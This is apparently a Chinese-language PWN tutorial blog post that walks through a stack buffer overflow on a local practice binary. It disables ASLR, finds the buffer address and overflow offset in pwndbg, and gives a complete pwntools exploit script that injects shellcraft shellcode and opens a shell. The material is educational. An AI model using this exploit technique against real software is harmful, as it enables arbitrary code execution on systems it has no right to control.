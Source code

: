 ```yaml
---
title: shellcode
subtitle: 运行你自己的指令
date: 2023-08-08T05:09:08+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


在真正的漏洞利用中，你不太可能拥有 `win()` 函数。shellcode 是一种允许 **运行你自己的
指令** 的方法，使你能够在系统上运行任意命令。

**shellcode** 本质上是 **一系列汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖返回
地址（返回指针）以劫持代码，并执行我们自己的指令。

<!--more-->

{{<admonition type="warning">}}

我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。
pwntools 很安全，并且几乎拥有你需要的所有 shellcode 。

{{</admonition>}}

shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分
数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，
即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

{{< link href="/pwn_assets/shellcode.zip" content="shellcode.zip" title="Download shellcode.zip" download="shellcode.zip" card=true >}}

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化
内存的某些方面，可以看我的这篇博客：[NOPs](https://www.cubeyond.net/nops/) 。这种随机化可能会使我们的 shellcode
变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

{{<admonition type="info">}}

类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。
因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很
浪费时间的事情。

{{</admonition>}}

{{<admonition type="warning">}}

再次强调，如果你不知道指令的作用，则永远不要运行该指令。

{{</admonition>}}

## 0x02 确定缓冲区位置

使用 `pwndbg` 调试 `vuln` ，并找出缓冲区在内存中的起始位置；这就是我们
想要将返回地址指向的位置。

```
$ pwndbg vuln
$ disass unsafe
[...]
0x0804918a <+24>:	lea    eax,[ebx-0x1ff8]
[...]
0x0804919c <+42>:	lea    eax,[ebp-0x134]
[...]
0x080491ac <+58>:	mov    ebx,DWORD PTR [ebp-0x4]
[...]
```

可以根据大小判断哪个是 **局部变量**。根据缓冲区大小是 300，可以判断出
`ebp-0x134` 很可能是缓冲区。让我们在 `gets()` 之后设置一个断点并找到确切
的返回地址。

```
$ b *0x080491a8
$ r
Overflow me
<<IM HERE>>  <== This was my input
$ x/20s $esp
[...]
0xffffd664:	"<<IM HERE>>"
[...]
```

它似乎位于 `0xffffd664` ；如果我们多次运行二进制文件，它应该保持在原来的位置
（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding 。我们将使用 De Bruijn 序列，如上一篇 [文章](https://www.cubeyond.net/de-bruijn-sequences/) 中所述。

```
$ pwndbg vuln
$ cyclic 500
<COPY THIS>
$ r
Overflow me
<<PASTE HERE>>

Program received signal SIGSEGV, Segmentation fault.
0x64616164 in ?? ()
[...]
$ cyclic -l 0x64616164
Finding cyclic pattern of 4 bytes: b'daad' (hex: 0x64616164)
Found at offset 312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 EXP

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；
这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供
shellcode 。

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')

context.binary = ELF('./vuln')

p = process()
```

{{<admonition type="info">}}

我们可以只使用 `process()` ，因为一旦设置了 `context.binary` 就默认假定
使用该进程。

{{</admonition>}}

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode 。

```python
payload = asm(shellcraft.sh())      # 构建 Shellcode
payload = payload.ljust(312, b'A')  # 溢出 Padding
payload += p32(0xffffd664)          # 返回地址
```

现在让我们将其发送出去并使用 `p.interactive()` ，它使我们能够与 shell 通信。

```python
p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

如果你遇到 `EOFError` ，请打印出 shellcode 并尝试在内存中查找它。
栈地址可能是错误的。

你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的 hook 调试方法来解决这个问题。

{{</admonition>}}

```
$ python exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 39321
[*] Switching to interactive mode
Overflow me
$ whoami
cub3y0nd
```

## 0x05 最终 EXP

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())
payload = payload.ljust(312, b'A')
payload += p32(0xffffd664)

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode
- 然后，我们通过覆盖栈上保存的返回地址以指向我们的 shellcode
来劫持代码执行
- 一旦返回地址压入 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell
